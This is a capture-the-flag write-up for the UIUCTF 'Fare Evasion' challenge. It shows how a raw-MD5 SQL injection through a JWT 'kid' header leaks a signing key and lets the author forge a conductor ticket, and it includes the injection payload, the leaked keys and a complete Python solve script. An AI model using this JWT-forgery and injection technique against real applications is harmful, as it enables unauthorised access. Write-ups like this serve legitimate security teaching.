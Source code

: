 ```yaml
---
created: 2024-06-28T20:52
updated: 2024-06-28T21:02
---
```


# Fare Evasion
## Analyze
A quick analysis of the network requests tells me that I have to sign my own JWT with the type `conductor` and a different kid.

```json
{
  "alg": "HS256",
  "kid": "passenger_key",
  "typ": "JWT"
}
```

```json
{
  "type": "passenger"
}
```

Using a random key doesn't work.

```
Key isn't passenger or conductor. Please sign your own tickets.
```

### Hint
The message returned has hash in messy unicode, that's peculiar, and it appears that the server is querying based on raw md5, using unsafe string concatenation.

```js
// i could not get sqlite to work on the frontend :(
      /*
        db.each(`SELECT * FROM keys WHERE kid = '${md5(headerKid)}'`, (err, row) => {
        ???????
       */
```

## Solve
We will reference past writeups [^1], and use their payload for md5 exploitation.
The basic idea is that raw md5 of this payload will result in a sql injection like this

```sql
SELECT login FROM admins WHERE password = 'xxx'||'1xxxxxxxx'
```

```python
encoded_token = jwt.encode(decoded_token, secret, algorithm="HS256", headers={"kid": "129581926211651571912466741651878684928"})
```

We will first modify the header's kid, without changing anything.

```
Sorry passenger, only conductors are allowed right now. Please sign your own tickets. 
hashed ô÷uÞIB♣BçÙ+ secret: conductor_key_873affdf8cc36a592ec790fc62973d55f4bf43b321bf1ccc0514063370356d5cddb4363b4786fd072d36a25e0ab60a78b8df01bd396c7a05cccbbb3733ae3f8e
hashed Rò▲sÜxÉÄ☻Å´↕\ä secret: a_boring_passenger_signing_key_?
```

SQL injection worked and we have our conductor key.

### Solve Script

```python
import requests
import re
import jwt

url = "https://fare-evasion.chal.uiuc.tf/"

response = requests.get(url)
set_cookie = response.headers.get("Set-Cookie")
access_token = re.search(r'access_token=(.*?);', set_cookie).group(1)
decoded_token = jwt.decode(access_token, algorithms=["HS256"], options={"verify_signature": False})
decoded_token['type'] = 'conductor'

# sql inject with raw md5 hash
secret = "a_boring_passenger_signing_key_?"
encoded_token = jwt.encode(decoded_token, secret, algorithm="HS256", headers={"kid": "129581926211651571912466741651878684928"})
headers = {"Cookie": f"access_token={encoded_token}"}
response = requests.post(url + "pay", headers=headers)
msg = response.json()['message']
print(msg)
conductor_key = re.search(r'secret: (.+)\n', msg).group(1)
# "conductor_key_873affdf8cc36a592ec790fc62973d55f4bf43b321bf1ccc0514063370356d5cddb4363b4786fd072d36a25e0ab60a78b8df01bd396c7a05cccbbb3733ae3f8e"
encoded_token = jwt.encode(decoded_token, conductor_key, algorithm="HS256", headers={"kid": "conductor_wkey"})
headers = {
    "Cookie": f"access_token={encoded_token}"
}
response = requests.post(url + "pay", headers=headers)
msg = response.json()['message']
print(msg)
# Conductor override success. uiuctf{sigpwny_does_not_condone_turnstile_hopping!}
```

[^1]: [SQL injection with raw MD5 hashes (Leet More CTF 2010 injection 300) - Christian von Kleist (posthaven.com)](https://cvk.posthaven.com/sql-injection-with-raw-md5-hashes)
